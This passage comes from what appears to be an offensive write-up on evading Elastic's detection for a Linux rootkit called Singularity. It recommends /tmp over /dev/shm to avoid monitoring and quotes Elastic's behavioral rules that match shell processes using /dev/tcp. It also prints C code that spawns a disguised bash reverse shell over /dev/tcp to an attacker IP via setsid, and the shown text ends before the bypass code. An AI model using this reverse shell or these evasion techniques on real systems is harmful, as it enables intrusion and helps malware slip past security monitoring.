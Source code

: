 **Why This Works:**

I think elastic's behavioral detection rules prioritize monitoring `/dev/shm` due to its common use in malware (thinking like an attacker, I would clearly use `/dev/shm` to download and use exploits in that directory). Alternative writable directories like `/tmp` and `/var/tmp` receive less aggressive monitoring, allowing the compilation and execution of the loader without triggering automated termination.

# Bonus 2: Bypassing Elastic Behavioral Detection for Reverse Shells

The latest version of Singularity triggers a reverse shell via ICMP packet hooking. While the previous techniques bypassed static YARA signatures, Elastic's behavioral detection rules caught the reverse shell execution.

## The Detection Problem

![imgur](https://i.imgur.com/mxNbtVX.png)
![imgur](https://i.imgur.com/3hPxXPD.png)

Elastic triggered two behavioral alerts:
- **"Suspicious Execution via setsid and nohup"** (Risk: 73)
- **"Shell Command Execution via Kworker"** (Risk: 99)

### Elastic's Behavioral Rules

**Rule 1:** Detects `setsid`/`nohup` + `/dev/tcp/*` patterns  
**Rule 2:** Detects shell processes using `/dev/tcp/` or `/dev/udp/`

Both rules automatically kill the process on detection.

**Rule 2 Detection Logic:**
```
process where event.action == "exec" and 
process.name in ("sh", "bash", "zsh", "dash", "zmodload") and
process.command_line like~ ("*/dev/tcp/*", "*/dev/udp/*", "*zsh/net/tcp*", "*zsh/net/udp*")
```

The rule scans the **entire command line** for `/dev/tcp/` patterns, making simple obfuscation ineffective.

## Original Detected Code

```c
// DETECTED by Elastic
snprintf(cmd, sizeof(cmd),
         "bash -c '"
         "PID=$$; "
         "kill -59 $PID; "
         "exec -a \"%s\" /bin/bash &>/dev/tcp/%s/%s 0>&1"
         "' &",
         PROC_NAME, YOUR_SRV_IP, SRV_PORT);

char *argv[] = {"/usr/bin/setsid", "/bin/bash", "-c", cmd, NULL};
```
